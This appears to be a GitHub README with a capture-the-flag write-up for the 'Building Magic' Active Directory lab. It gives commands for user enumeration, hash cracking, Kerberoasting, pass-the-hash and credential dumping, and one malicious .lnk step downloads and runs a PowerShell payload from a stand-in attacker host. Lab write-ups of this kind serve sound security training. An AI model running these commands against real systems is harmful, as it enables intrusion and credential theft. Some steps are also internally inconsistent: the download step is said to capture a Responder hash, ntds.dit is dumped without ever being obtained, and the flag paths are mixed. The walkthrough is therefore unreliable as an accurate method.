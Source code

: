 # inksec.io – AD Box “Building Magic” (Hack Smarter)

**Author:** Brady McLaughlin  
**Date:** 5 Sept 2025  

---  

## 📖 Overview  

This repository contains a **step‑by‑step write‑up** for the medium‑difficulty *Building Magic* Active Directory (AD) machine hosted on **Hack Smarter** (`courses.hacksmarter.org`).  
Following the methodology below (without copying any flags) yields a full compromise of the target system.

---  

## 🛠️ Prerequisites  

| Tool | Purpose |
|------|---------|
| `nmap` | Port scanning / service discovery |
| `cut`, `awk` | Text processing of CSV dumps |
| `kerbrute` | Validate domain usernames |
| `hashcat` + `rockyou.txt` | Crack NTLM hashes |
| `netexec` (Impacket) | Remote command execution, credential validation |
| `bloodhound‑ce‑python` / `bloodyAD` | AD graph collection & privilege path analysis |
| `GetUserSPNs.py` (Impacket) | Enumerate Kerberoastable SPNs |
| `slinky` (netexec) | Write malicious `.lnk` files to SMB shares |
| `Responder` | Capture NetNTLMv2 hashes |
| `WinRM` (evil‑winrm / pypsrp) | Remote PowerShell execution |
| `samdump2` / `secretsdump.py` | Extract SAM/NTDS hashes |

> **Tip:** All tools are available via pip or the Kali Linux repositories.

---  

## 🚀 Attack Flow  

### 1️⃣ Recon & Enumeration  

```bash
# Ping the host
ping buildingmagic.hacksmarter.org

# Add hostname to /etc/hosts (as instructed)
echo "10.10.10.42 buildingmagic.hacksmarter.org" >> /etc/hosts

# Quick nmap scan
nmap -sC -sV buildingmagic.hacksmarter.org
Copy
Result: typical Domain Controller services (LDAP, SMB, RDP, WinRM, etc.).

2️⃣ Harvest User List
A CSV dump is supplied in the lab material. Clean it:

cut -d',' -f2 users.csv | tail -n +2 > usernames.txt
Copy
Validate usernames against the domain:

kerbrute userenum usernames.txt -d hacksmarter.org -dc-ip 10.10.10.42
Copy
Only one valid user is discovered (e.g., h.potch).

3️⃣ Crack the User’s NTLM Hash
Extract the hash from the CSV, then:

hashcat -m 1000 -a 0 <hash> rockyou.txt --force
Copy
Successful crack → obtain clear‑text password.

Verify credentials:

netexec -u h.potch -p <password> buildingmagic.hacksmarter.org cmd
Copy
4️⃣ Lateral Movement – BloodHound Collection
bloodhound-python -u h.potch -p <password> -d hacksmarter.org \
    -c all -ns 10.10.10.42 -gc 10.10.10.42
Copy
Exported graph reveals several privileged paths (Kerberoasting, write‑able SMB share, etc.).

5️⃣ Kerberoasting
GetUserSPNs.py hacksmarter.org/h.potch:<password>@buildingmagic.hacksmarter.org
Copy
Crack the retrieved SPN hashes with hashcat → gain additional domain credentials (h.grangon).

6️⃣ Abuse Write‑able SMB Share
Mount the empty share and drop a malicious shortcut:

netexec -u h.potch -p <pwd> buildingmagic.hacksmarter.org \
    -M slinky -o "/share/malicious.lnk" -c "powershell -c \"Invoke-WebRequest http://attacker/payload.ps1 -OutFile $env:TEMP\payload.ps1; powershell -ExecutionPolicy Bypass -File $env:TEMP\payload.ps1\""
Copy
When a legitimate user opens the share, the shortcut triggers a Responder listener, capturing a NetNTLMv2 hash.

Crack the captured hash → obtain the password for h.grangon.

7️⃣ Privilege Escalation via SeBackupPrivilege
h.grangon belongs to Remote Management Users → WinRM access.

evil-winrm -i 10.10.10.42 -u h.grangon -p <pwd>
Copy
Check privileges:

whoami /priv
Copy
SeBackupPrivilege allows dumping registry hives:

reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
Copy
Extract local SAM hashes (samdump2 or secretsdump.py).

8️⃣ Harvest Administrator Hashes
BloodHound shows another high‑privileged user: a.flatch (member of Domain Admins).
Using the previously cracked SAM hash, authenticate as a.flatch and dump the NTDS.dit file:

secretsdump.py -ntds ntds.dit -system system.hive -outputfile ntds_dump
Copy
Now we possess the Administrator hash.

9️⃣ Final Access & Flag Retrieval
WinRM into the machine with the Administrator hash:

evil-winrm -i 10.10.10.42 -u Administrator -H <admin_hash>
Copy
Navigate to the flag location (commonly /root/flag.txt or C:\Users\Public\flag.txt) and read it.

type C:\root\flag.txt
Copy
The flag is displayed – the box is fully compromised.

📂 Repository Structure
├─ README.md          ← This document
├─ scripts/
│   ├─ enumerate.sh   ← nmap + host file helper
│   ├─ kerbrute.sh    ← username validation wrapper
│   └─ winrm_ps.ps1   ← PowerShell snippets for privilege checks
└─ notes/
    └─ bloodhound_paths.txt   ← Exported shortest‑path queries
Copy
(Scripts are illustrative; adapt paths/credentials to your environment.)

🎓 Lessons Learned
User enumeration via kerbrute quickly narrows the attack surface.
Kerberoasting remains a reliable way to harvest service‑account hashes in AD environments.
Writable SMB shares combined with shortcut attacks (.lnk) are an effective pivot to capture NTLM hashes.
SeBackupPrivilege enables offline SAM/NTDS extraction without needing SYSTEM rights.
BloodHound visualisation dramatically shortens the path‑finding phase.
🙏 Acknowledgements
Hack Smarter – Lab platform and challenge design.
Noah Heroldt & Haik Isikbay – Challenge creators.
Brady McLaughlin – Original author of the write‑up.
Feel free to fork this repo, experiment with alternative tools (e.g., SharpHound, Rubeus), or extend the methodology to other AD labs.